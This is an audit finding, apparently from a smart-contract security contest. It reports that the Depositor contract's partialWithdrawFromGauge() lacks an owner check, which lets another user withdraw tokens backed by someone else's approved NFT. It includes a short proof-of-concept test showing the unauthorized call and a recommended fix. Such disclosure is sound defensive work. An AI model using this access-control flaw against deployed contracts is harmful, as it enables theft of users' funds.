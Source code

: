 bin2chen

high

# partialWithdrawFromGauge() can steal other people's token

## Summary
#Depositor.partialWithdrawFromGauge() does not verify that only the owner of NFT can call it, resulting in the ability to withdraw other people's tokens

## Vulnerability Detail
To be successfully call partialWithdrawFromGauge() you must first approve address(Depository.sol) e.g:
```solidity
depositReceipt.connect(owner).approve(depositor.address, NFT_id);   //*** need approve first ***//
depositor.connect(owner).partialWithdrawFromGauge(NFT_id,50%)
```
The owner of NFT_id does not change after partialWithdrawFromGauge(), only pooledTokens[_NFTId] = pooledTokens[_NFTId]/2;
So _isApprovedOrOwner(depository.address, _NFTId) is still valid
so At this point , malicious user alice. can still call and no error will occur
```solidity
depositor.connect(alice).partialWithdrawFromGauge(NFT_id,50%); //***@audit depositReceipt.split still ok , success***//
```

test code:
modity Depositor.js

```javascript
    describe("partialWithdrawFromGauge", function (){
        const NFT_id = 1  
        const amount = ethers.utils.parseEther('353')  
        
        it("Should withdraw partially from gauge with right user call", async function (){
            //setup deposit first
              
            AMMToken.approve(depositor.address, amount)
            await depositor.connect(owner).depositToGauge(amount)
            rewards_address = await gauge.FakeRewards()

            before_NFT_owner = await depositReceipt.ownerOf(NFT_id)
            expect(before_NFT_owner).to.equal(owner.address)
            before_owner_tokens = await AMMToken.balanceOf(owner.address)

            await depositReceipt.connect(owner).approve(depositor.address, NFT_id)
            let fifty_one_percent = ethers.utils.parseEther('0.51')  
            let hundred_percent = ethers.utils.parseEther('1')
            await depositor.connect(owner).partialWithdrawFromGauge(NFT_id, fifty_one_percent, [rewards_address])
+           await depositor.connect(alice).partialWithdrawFromGauge(NFT_id, fifty_one_percent, [rewards_address]); //@audit still ok

```


## Impact
 steal other people's token
## Code Snippet
https://github.com/sherlock-audit/2022-11-isomorph/blob/main/contracts/Velo-Deposit-Tokens/contracts/Depositor.sol#L79-L82
## Tool used

Manual Review

## Recommendation

```solidity
contract Depositor is Ownable {
..
    function partialWithdrawFromGauge(uint256 _NFTId, uint256 _percentageSplit, address[] memory _tokens) public {
+      require(depositReceipt.ownerOf(_NFTId) == msg.sender);   
        uint256 newNFTId = depositReceipt.split(_NFTId, _percentageSplit);

-       //then call withdrawFromGauge on portion removing.
-        withdrawFromGauge(newNFTId, _tokens);
+        uint256 amount = depositReceipt.pooledTokens(newNFTId);
+        depositReceipt.burn(newNFTId);
+        gauge.getReward(address(this), _tokens);
+        gauge.withdraw(amount);
+       //AMMToken adheres to ERC20 spec meaning it reverts on failure, no need to check return
+       //slither-disable-next-line unchecked-transfer
+        AMMToken.transfer(msg.sender, amount);
    } 
..

    function withdrawFromGauge(uint256 _NFTId, address[] memory _tokens)  public  {
+      require(depositReceipt.ownerOf(_NFTId) == msg.sender);   
        uint256 amount = depositReceipt.pooledTokens(_NFTId);
        depositReceipt.burn(_NFTId);
        gauge.getReward(address(this), _tokens);
        gauge.withdraw(amount);
        //AMMToken adheres to ERC20 spec meaning it reverts on failure, no need to check return
        //slither-disable-next-line unchecked-transfer
        AMMToken.transfer(msg.sender, amount);
    }


```
